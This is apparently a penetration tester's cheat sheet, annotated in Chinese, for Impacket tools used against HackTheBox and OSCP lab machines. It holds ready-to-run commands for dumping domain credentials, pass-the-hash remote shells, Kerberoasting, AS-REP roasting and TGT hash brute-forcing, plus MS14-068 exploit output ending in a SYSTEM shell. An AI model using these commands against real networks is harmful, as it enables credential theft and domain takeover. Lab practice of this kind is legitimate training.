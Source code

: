 
**secretsdump.py**
```bash
/usr/share/doc/python3-impacket/examples/secretsdump.py -ntds xxx -system xxx LOCAL
/usr/share/doc/python3-impacket/examples/secretsdump.py -ntds xxx -system xxx.bin LOCAL
sudo /usr/share/doc/python3-impacket/examples/secretsdump.py -hashes :d167c3238864b12f5f82feae86a7f798 'htb.local/APT$@htb.local'
/usr/share/doc/python3-impacket/examples/secretsdump.py htb.local/xek:xek@123@htb.local
python ~/tool/impacket-dacledit/examples/secretsdump.py -system system -security security -sam sam LOCAL
sudo impacket-secretsdump -system SYSTEM -sam SAM LOCAL
```
也可以用 `crackmapexec smb absolute.htb -u 'DC$' -H A7864AB463177ACB9AEC553F18F42577 --ntds`


**psexec.py (SHELL)**
```bash
/usr/share/doc/python3-impacket/examples/psexec.py Administrador:U46olsZ3jp1ZN4i2Hv7R@10.129.108.107
/usr/share/doc/python3-impacket/examples/psexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb' htb.local/henry.vinson@htb.local
```


**GetNPUsers.py ( AS-REP Roasting )**
```bash
/usr/share/doc/python3-impacket/examples/GetNPUsers.py -no-pass -dc-ip 10.129.228.115 licordebellota.htb/ -usersfile user.list
```

- 无需域身份验证请求执行 GetUserSPNs
使用于 GetNPUsers 获取 hash 无法破解等情况
https://github.com/fortra/impacket/tree/c3ff33b39fe067e738d5625ce174d3d10f7a4b79
```bash
python -m venv .venv
source .venv/bin/activate
pip install .
```

```bash
python examples/GetUserSPNs.py -no-preauth jjones -usersfile ~/HackTheBox/rebound/username -dc-ip 10.129.229.114 rebound.htb/
```



**GetUserSPNs.py ( Kerberoasting , 查询 SPN)**
```bash
/usr/share/doc/python3-impacket/examples/GetUserSPNs.py -dc-ip 10.129.228.115 licordebellota.htb/Kaorz:Roper4155
/usr/share/doc/python3-impacket/examples/GetUserSPNs.py -dc-ip 10.129.229.57 search.htb/hope.sharp:'IsolationIsKey?' -request
python /usr/share/doc/python3-impacket/examples/GetUserSPNs.py scrm.local/ksimpson:ksimpson -dc-host dc1.scrm.local -request [-k 禁用NTLM 使用kerberos认证]
```
如果-k 选项报错，修改260行的代码 (或者指定-dc-host 而不是 -dc-ip)：
```python
if self.__doKerberos: 
	#target = self.getMachineName() 
	target = self.__kdcHost
```


**GetTGT.py**
```bash
/usr/share/doc/python3-impacket/examples/getTGT.py
```

```bash
#!/bin/bash
while IFS='' read -r LINE || [ -n "${LINE}" ]
do
        echo "feed the Hash : ${LINE}"
        /usr/share/doc/python3-impacket/examples/getTGT.py htb.local/henry.vinson@htb.local -hashes ${LINE}
done < backup/password_hash
```
**hash 必须为 xxx:xxx, 注意时钟同步问题**

tgtbrute.py （优化版）
```python
#!/usr/bin/env python3
import subprocess

# 读取密码哈希的文件
with open('password_hash', 'r') as file:# change the file path
    for line in file:
        hash_value = line.strip()
        print(f"Testing hash: {hash_value}")

        # 运行getTGT.py命令，并捕获输出
        result = subprocess.run(
            ['/usr/share/doc/python3-impacket/examples/getTGT.py',
             'htb.local/henry.vinson@htb.local', '-hashes', hash_value], # Change the username
            capture_output=True, text=True
        )

        # 检查输出是否包含"Saving"
        if "Saving" in result.stdout:
            print(f"[+] Success! Hash: {hash_value}")
            print(f"Output: {result.stdout}")
            break

```


**mssqlclient.py**
```bash
/usr/share/doc/python3-impacket/examples/mssqlclient.py licordebellota.htb/Kaorz:Roper4155@licordebellota.htb
KRB5CCNAME=administrator.ccache python /usr/share/doc/python3-impacket/examples/mssqlclient.py -k dc1.scrm.local
python ~/tool/impacket-dacledit/examples/mssqlclient.py sa:'GWE3V65#6KFH93@4GWTG2G'@10.129.1.183
python examples/mssqlclient.py Administrator:Lab123@192.168.236.18 -windows-auth
proxychains4 python3.7 ~/tool/impacket-dacledit/examples/mssqlclient.py oscp.exam/sql_svc:Dolphin1@10.10.112.148 -windows-auth
```


**mssqlproxy .py**
```bash
git clone https://github.com/djhons/mssqlproxy.git
```

```bash
SQL> enable_ole
SQL> upload reciclador.dll C:\windows\temp\reciclador.dll   (上传动态链接库)
ctrl ^ c
wget https://github.com/blackarrowsec/mssqlproxy/releases/download/0.1/assembly.dll
python3 mssqlclient.py licordebellota.htb/sa:'#mssql_s3rV1c3!2020'@10.129.46.75 -install -clr assembly.dll
python3 mssqlclient.py licordebellota.htb/sa:'#mssql_s3rV1c3!2020'@10.129.46.75 -start -reciclador 'C:\Windows\temp\reciclador.dll'
```

修改 proxychains4.conf
```bash
sudo echo "socks5 127.0.0.1  1337" >> /etc/proxychains4.conf
```


**rpcdump.py**
```bash
/usr/share/doc/python3-impacket/examples/rpcdump.py 10.129.96.60
```


**rpcmap.py**
```bash
/usr/share/doc/python3-impacket/examples/rpcmap.py ncacn_ip_tcp:10.129.96.60[135] -brute-uuids -brute-opnums
```


**wmiexec.py (SHELL)**
```bash
/usr/share/doc/python3-impacket/examples/wmiexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb' htb.local/henry.vinson@htb.local
KRB5CCNAME=administrator.ccache python /usr/share/doc/python3-impacket/examples/wmiexec.py -k -no-pass administrator@hathor.windcorp.htb -dc-ip 10.129.186.131
```


**dcomexec.py (SHELL)**
```bash
/usr/share/doc/python3-impacket/examples/dcomexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb' htb.local/henry.vinson@htb.local
```


**smbexec.py (SHELL)**
```bash
/usr/share/doc/python3-impacket/examples/smbexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb' htb.local/henry.vinson@htb.local
```


**reg.py** (读取注册表)
```bash
/usr/share/doc/python3-impacket/examples/reg.py -hashes 'aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb' -dc-ip htb.local htb.local/henry.vinson@htb.local query -keyName HKCU\\

sudo /usr/share/doc/python3-impacket/examples/reg.py -hashes :e53d87d42adaa3ca32bdb34a876cbffb -dc-ip htb.local htb.local/henry.vinson@htb.local query -keyName HKCU\\Software\\GiganticHostingManagementSystem
```


**lookupsid.py(爆破 rid 枚举用户名)**
```bash
└─$ /usr/share/doc/python3-impacket/examples/lookupsid.py htb.local/james:'J@m3s_P@ssW0rd!'@10.129.230.144 | grep -i "domain sid\|james"
[*] Domain SID is: S-1-5-21-4220043660-4019079961-2895681657
1103: HTB\james (SidTypeUser)

拼接后就是S-1-5-21-4220043660-4019079961-2895681657-1103

/usr/share/doc/python3-impacket/examples/lookupsid.py -target-ip 10.129.229.114 -no-pass rebound.htb/guset@10.129.229.114 10000 (RID爆破枚举username)
```


**goldenPac.py ( MS14-068 EXP )**
```bash
└─$ /usr/share/doc/python3-impacket/examples/goldenPac.py htb.local/james:'J@m3s_P@ssW0rd!'@mantis.htb.local -dc-ip 10.129.230.140 
Impacket v0.11.0 - Copyright 2023 Fortra

[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
[*] Attacking domain controller 10.129.230.140
[*] 10.129.230.140 found vulnerable!
[*] Requesting shares on mantis.htb.local.....
[*] Found writable share ADMIN$
[*] Uploading file joVupjGU.exe
[*] Opening SVCManager on mantis.htb.local.....
[*] Creating service lYYT on mantis.htb.local.....
[*] Starting service lYYT.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```


**smbclient.py**
```
python /usr/share/doc/python3-impacket/examples/smbclient.py -k scrm.local/ksimpson:ksimpson@dc1.scrm.local 
[-k 强制使用kerbrute验证]

shares 枚举共享目录
use xxx
ls
get xxx
```


**getPac.py** (域 SID)
```
python /usr/share/doc/python3-impacket/examples/getPac.py -targetUser administrator scrm.local/ksimpson:ksimpson
```


**ticketer.py** 
[0x03 Windows , AD 攻击向量 ( PrivEsc )](0x03%20Windows%20,%20AD%20攻击向量%20(%20PrivEsc%20).md)
```
(见Silver Ticket Attack)
银票攻击
```


**findDelegation.py**
可以查询域中存在非约束的主机用户和服务用户
```bash
findDelegation.py -dc-ip 172.16.0.106 -target-domain hack.lab hack.lab/lucky:p@ssw0rd
```

**dacledit.py** (Bloodhound Owns Linux Abuse, 见 Bloodhound Attack)
[Bloodhound Attack](Bloodhound%20Attack.md)
